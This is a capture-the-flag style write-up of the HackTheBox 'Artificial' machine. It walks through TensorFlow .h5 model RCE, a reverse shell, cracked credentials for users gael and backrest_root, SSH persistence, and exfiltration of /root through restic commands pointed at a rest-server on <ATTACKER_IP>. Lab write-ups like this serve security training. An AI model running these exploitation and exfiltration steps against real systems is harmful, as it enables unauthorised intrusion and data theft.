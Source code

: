 ```yaml
---
title: " HackTheBox Artificial Writeup"
date: 2025-09-29
categories: [HTB, Machines]
tags: [Linux, CVE, rest-server, snapshot]
image:
  path: /assets/Artificial-htb/1.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Artificial HTB — blog writeup cover"
---
```


## Nmap Scan

I started by running a full TCP scan on the target using:
```shell
sudo nmap 10.10.11.74 -T4 -A -open -p-
```
![nmap](/assets/Artificial-htb/nmap-scan-Artificial.png)
I mapped the domain to the IP in ```/etc/hosts``` and discovered a file upload feature accepting only ```.h5``` files, commonly used for TensorFlow models.
![upload](/assets/Artificial-htb/upload.png)
Research uncovered a TensorFlow CVE enabling RCE via ```.h5``` files. Key resources:
- [TensorFlow RCE Research ](https://mastersplinter.work/research/tensorflow-rce/)
- [PoC Demo](https://github.com/Splinter0/tensorflow-rce?tab=readme-ov-file)

## TensorFlow Remote Code Execution with Malicious Model

![docker](/assets/Artificial-htb/docker.png)
To match the server’s environment ```(python:3.8, tensorflow==2.13.1)```, I used Docker to avoid ```load_model()``` issues due to version mismatches. I built the image:
```shell
sudo docker build -t artificial-exploit .
```
I ran the container, mounting the current directory to ```/app``` for file transfer:
```shell
sudo docker run -it -v $(pwd):/app artificial-exploit
```
Using the provided ```exploit.py``` script (modified with my IP ```10.10.16.40``` for the reverse shell), I generated exploit.h5:
![h5](/assets/Artificial-htb/h5.png)
I generated the ```exploit.h5``` file using:
```shell
python3 exploit.py
```
![exploit](/assets/Artificial-htb/exploit.png)
I uploaded exploit.h5 to the server 
![model](/assets/Artificial-htb/model.png)
and set up a listener:
```shell
nc -nvlp 6666
```
This granted a reverse shell.
![nc](/assets/Artificial-htb/nc.png)

## User.txt


For better functionality, I spawned a fully interactive TTY:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
I found a ```users.db``` SQLite database and queried it:
![creds](/assets/Artificial-htb/creds.png)
This revealed user credentials, including hashed passwords. I cracked the hash for ``gael`` yielding:
![crack](/assets/Artificial-htb/crack.png)
```shell
gael:mattp005numbertwo
```
After cracking the password for the user ```gael```, I switched to their account:
![su](/assets/Artificial-htb/su.png)

successfully gaining access to the gael user account.

> Persistent SSH Access
{: .prompt-tip }
To enable easier file transfers and persistent access, I generated an ```ed25519 key pair``` on my Kali machine for security and efficiency:
```shell
ssh-keygen -t ed25519 -C "you@youremail" -f ~/.ssh/id_ed25519
```
I copied the public key to the server:
```shell
ssh-copy-id -i ~/.ssh/id_ed25519.pub gael@10.10.11.74
```
Then connected via SSH:
```shell
ssh -i ~/.ssh/id_ed25519 gael@10.10.11.74
```
![ssh](/assets/Artificial-htb/ssh.png)

## Backrest_root's Credits

I transferred and executed ```linpeas.sh``` to enumerate the system for privilege escalation vectors. While Linux check scripts can be used, ```linpeas.sh``` is faster and more comprehensive.
![linpease](/assets/Artificial-htb/linpease.png)
linpeas.sh pointed me to ```/var/backups```, where I found ```backrest_backup.tar.gz```, a backup file containing critical data.
![backup](/assets/Artificial-htb/backup.png)
![backup2](/assets/Artificial-htb/backup2.png)
I transferred ```backrest_backup.tar.gz``` to my machine, extracted it, and found a ```config.json``` file:
![backup3](/assets/Artificial-htb/backup3.png)
![config](/assets/Artificial-htb/config.png)
The ```config.json``` contained a Base64-encoded bcrypt hash for the ```backrest_root``` service account:
```shell
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```
I decoded the Base64 string to extract the bcrypt hash:
```shell
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d

Output:

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
I used hashcat to crack the hash with the ```rockyou.txt``` wordlist:
```shell
hashcat -m 3200 hash.hash ../rockyou.txt --force
```
![hash](/assets/Artificial-htb/hash.png)
This revealed the password for ```backrest_root```:
```shell
backrest_root:!@#$%^
```

## Root.txt

![backr](/assets/Artificial-htb/backr.png)

Backrest, a web service executing system commands with root privileges, allows command injection via its interface (e.g., "Run Command" tab).<br>
According to GTFOBins, restic running with sudo can read or transfer sensitive files, such as those in ```/root```, when executed with elevated privileges.
![restic](/assets/Artificial-htb/restic.png)

I set up a ```rest-server``` on my attacker machine to receive backup data:
```shell
rest-server --path /tmp/restic-data --listen :12345 --no-auth 
```
![attack](/assets/Artificial-htb/attack.png)
This server stores data locally in /tmp/restic-data.

On the target’s Backrest interface ```(Run Command tab)```, I executed restic commands. Since Backrest prepends the binary ```/opt/backrest/restic```, I only provided the arguments.
- Initialize a repository:  
![repo](/assets/Artificial-htb/repo.png)
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit init
```
![s1](/assets/Artificial-htb/s1.png)
- Back up the ```/root``` directory:
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit backup /root
```
![s2](/assets/Artificial-htb/s2.png)
- On my attacker machine, I used restic to view snapshots and restore the backed-up data:
```shell
restic -r /tmp/restic-data/exploit snapshots
restic -r /tmp/restic-data/exploit restore <snapshot-id> --target ./restore
cat ./restore/root/root.txt
```
![attack](/assets/Artificial-htb/attack.png)
![root](/assets/Artificial-htb/root.png)
This successfully retrieved the ```root.txt``` file.